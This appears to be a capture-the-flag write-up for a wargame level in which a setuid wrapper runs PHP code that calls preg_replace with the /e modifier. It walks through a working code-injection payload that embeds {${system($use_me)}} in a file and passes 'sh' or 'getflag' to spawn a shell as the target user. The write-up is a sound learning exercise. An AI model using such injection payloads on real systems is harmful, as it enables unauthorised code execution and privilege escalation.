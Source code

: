 # level09

## Challenge info

There’s a C setuid wrapper for some vulnerable PHP code.

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $content
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```
## Solution

The binary file flag09 present at /home/flag09 has the suid bit set. This binary is intended to execute the code shown as root.

First, and since i did not have any experience with php and regex'esm i went and tried to understand what the script does.

```
$contents = file_contents($filename) <- loads a file content to the variable contents 
```

```
$contents = preg_replace($pattern, $replacement, $subject) <- will search the subject for the regex and replace by the replacement array
```

the regex will look for something like:

```
content: [email aaa@ddd.com]
after: aaa AT ddd dot com
```

at this point i just tried to send a call to spawn a shell at the email because it will extract the email and [ brackets and probably execute, but it didnt.

```
[email system(sh)]
```

Since the experience with php is non existent, i went and read a walkthrough. 

Discovered that the <b>/e</b> will let the content of that string be evaluated if the complex curly syntax is used.

Complex curly syntax is used to access variables that are in string format.

for example

```
$abc = "123"
$name = "abc"

${$name} -> ${abc} -> 123
```

so if we inject code that spawn a shell this way (read from the file, so it's a string), we may have an arbitrary code execution.

```
echo "[email ${system(sh)}]" > /tmp/exp
./flag09 /tmp/exp
```

the above wont give us a shell because <b>${system(sh)}</b> will transfor the system(sh) in a string and not evalute it.

```
output: spam("${system(sh)}"
```

if we wrap it with curly braces it will execute and spawn a shell

```
echo "[email {${system(sh)}}]" > /tmp/exp
./flag09 /tmp/exp
```

But if we look closely at the code, we can se a second argument to the function named <b>$use_me</b> and it is passed as second command line argument.

so instead of hardcoding <b>sh</b> in the system call, we can use that argument

```
echo "[email {${system($use_me)}}]" > /tmp/exp
./flag09 /tmp/exp sh
```

This will give us a shell, but as flag09 user.

now issue

```
getflag
```

NOTE: we could be more efficient and run

```
echo "[email {${system($use_me)}}]" > /tmp/exp
./flag09 /tmp/exp getflag
```

but having a shell is always funnier.

## Flag

```
You have successfully executed getflag on a target account
```